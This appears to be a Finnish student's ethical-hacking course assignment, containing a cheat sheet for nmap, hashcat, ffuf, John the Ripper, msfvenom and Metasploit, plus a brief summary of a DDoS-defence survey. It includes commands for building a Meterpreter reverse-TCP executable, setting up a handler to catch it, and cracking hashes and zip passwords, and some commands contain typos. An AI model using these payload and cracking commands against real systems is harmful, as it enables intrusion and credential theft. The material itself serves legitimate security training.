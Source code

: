 
    
 # H6
 
### Laitteisto
 
* Käyttöjärjestelmä	Microsoft Windows 10 Enterprise LTSC 64 bit
* Prosessori i5-6600
* RAM 16 GB
* Virtuaaliohjelmisto : Oracle VM VirtualBox
* Virtuaali käyttöjärjestelmä: Kali 2024.1 - 28th February, 2024 - The first 2024 Kali Rolling release. Kernel 6.6.0, Xfce 4.18.4

 ## A) Cheat sheet

### NMAP
 
    mmap 192.168.1.1 ##Scan a single IP
    nmap 192.168.1.1 192.168.2.1 ##Scan specific IPs
    nmap 192.168.1.1-254 ##Scan a range
    nmap scanme.nmap.org ##Scan a domain
    nmap 192.168.1.0/24 ##Scan using CIDR notation
    -iL nmap -iL targets.txt ##Scan targets from a file
    -iR nmap -iR 100 ##Scan 100 random hosts
    -exclude nmap -exclude 192.168.1.1 ##Exclude listed host

### HASHCAT
    
 $ hashcat -m 0 '6b1628b016dff46e6fa35684be6acc96' rockyou.txt -o solved

Mikä suorittaa Hashcat ohjelman. '-m 0' määrittää halutun tiivistetyypin (MD5 tässä tapauksessa, suosituin), sitten annetaan salasanatiiviste ja määritetään käytettävä sanakirja. '-o solved' tallentaa vastauksen solved-nimiseen tiedostoon.

### FUFF
    

       $ ./ffuf -w /home/r01/Documents/common.txt -u http://127.0.0.2:8000/FUZZ -ac

Komento käynnistää ffuff-ohjelman ( ./ffuf -w), seuraavaksi määritellään sanakirja (/home/r01/Documents/common.tx), sitten kohde (-u http://127.0.0.2:8000/FUZZ) ja lopuksi käytin komentoa autocalibrate (-ac), mikä automaattisesti määrittää suodattimet

###John The ripper

John the ripper on Hashcatin tapainen ohjelma joka toimii hieman eri tavalla.


    ./john tero.zip.hash ## Luo tiivisteen tiedostomuodosta joka on salasana suojattu

    ./john tero.zip.hash ## Ajaa ohjelman ja murtaa tiedoston tero.zip.hash

Asennus:

    $ sudo apt-get update
    $ sudo apt-get -y install micro bash-completion git build-essential libssl-dev zlib1g zlib1g-dev zlib-gst libbz2-1.0 libbz2-dev atool zip wget


    $ git clone --depth=1 https://github.com/openwall/john.git
    $ cd john/src/
    $ ./configure
    $ make -s clean && make -sj4

Käyttö:

    $ $HOME/john/run/zip2john tero.zip >tero.zip.hash
    $ $HOME/john/run/john tero.zip.hash 
    
    





###MSFVENOM ja METASPLOITABLE

    msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>

Esimerkki:

    msfv -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=80 -f exe

Ylläoleva komento luo reverse tcp haittaohjelman joka kuuntelee osoitetta 127.0.0.1:80 ja ohjelma on .exe ajettava.

Metasploitablen käyttöön löysin hyvän sivuston missä vinkkejä sen käytöstä: https://www.comparitech.com/net-admin/metasploit-cheat-sheet/

Multi/handler:

    msfconsole
    use multi/handler/payload
    SET payload <haittaohjelma>
    SET LHOST <kuunteluosoite>
    SET LPORT <kuunteluportti>
    run -j ## Ajaa multihandlerin taustalla.

    
Metasploitableen on olemassa hyvä cheatsheet kuvana: 

![image](https://github.com/FredrikAkerlund/Starting-pentesting/assets/122887178/68fbebe5-8878-4be8-925f-cfa19839fb80)

Kuvan lähde: https://www.comparitech.com/net-admin/metasploit-cheat-sheet/

###Pencode

Pencode avulla voi helposti koodata stringejä haluamaksi

    echo 'hello world' | pencode md5   ## Koodaa hello world MD5 tiivisteeksi     
        5eb63bbbe01eeed093cb22bb8f5acdc3 ##MD5 tiiviste****


    pencode - complex payload encoder v0.4

    Usage: ./pencode FUNC1 FUNC2 FUNC3...
    
    ./pencode reads input from stdin by default, which is typically piped from another process.
    
    OPTIONS:
    -input reads input from a file, line by line.
    
    ENCODERS
      b64encode         - Base64 encoder
      hexencode         - Hex string encoder
      htmlescape        - HTML escape
      jsonescape        - JSON escape
      unicodeencodeall  - Unicode escape string encode (all characters)
      urlencode         - URL encode reserved characters
      urlencodeall      - URL encode all characters
      utf16             - UTF-16 encoder (Little Endian)
      utf16be           - UTF-16 encoder (Big Endian)
      xmlescape         - XML escape
    
    DECODERS
      b64decode         - Base64 decoder
      hexdecode         - Hex string decoder
      htmlunescape      - HTML unescape
      jsonunescape      - JSON unescape
      unicodedecode     - Unicode escape string decode
      urldecode         - URL decode
      xmlunescape       - XML unescape
    
    HASHES
      md5               - MD5 sum
      sha1              - SHA1 checksum
      sha224            - SHA224 checksum
      sha256            - SHA256 checksum
      sha384            - SHA384 checksum
      sha512            - SHA512 checksum
    
    OTHER
      filename.tmpl     - Replaces string #PAYLOAD# in content of a file that has .tmpl extension.
      lower             - Convert string to lowercase
      upper             - Convert string to uppercase


 
## B) A comprehensive survey on DDoS defense systems: New trends and challenges

- Julkaistu syyskuussa 2023 Computer Networks lehdesä, jufo taso 2 (https://jfp.csc.fi/#!PublicationInformationView/id/53938)
- IoT-laitteet ovat kasvattaneet DDoS-hyökkäyksien laajuutta merkittävästi.
- IoT-laitteiden määrä kasvaa huomattavasti, mutta niiden turvallisuus on usein heikko.
- Pilvipalveluiden avulla pyritään vähentämään DDoS-hyökkäyksien aiheuttamaa vahinkoa.
- DDoS-hyökkäyksien tutkimen on tärkeää, sillä ne muuttuvat ja kehittyvät jatkuvasti.
  



## Lähteet



Tunkeutumistestaus 2024, Tero Karvinen (https://terokarvinen.com/2024/eettinen-hakkerointi-2024/)

https://github.com/FredrikAkerlund/Starting-pentesting/blob/main/h6%20Countdown%20to%20CTF.md

Kali 2024.1 - 28th February, 2024 - The first 2024 Kali Rolling release. Kernel 6.6.0, Xfce 4.18.4. (https://www.kali.org/get-kali/#kali-platforms)

https://jfp.csc.fi/

https://www.sciencedirect.com/science/article/abs/pii/S0167404823000068




#### Tehnyt Roi Partanen 11.5.2024
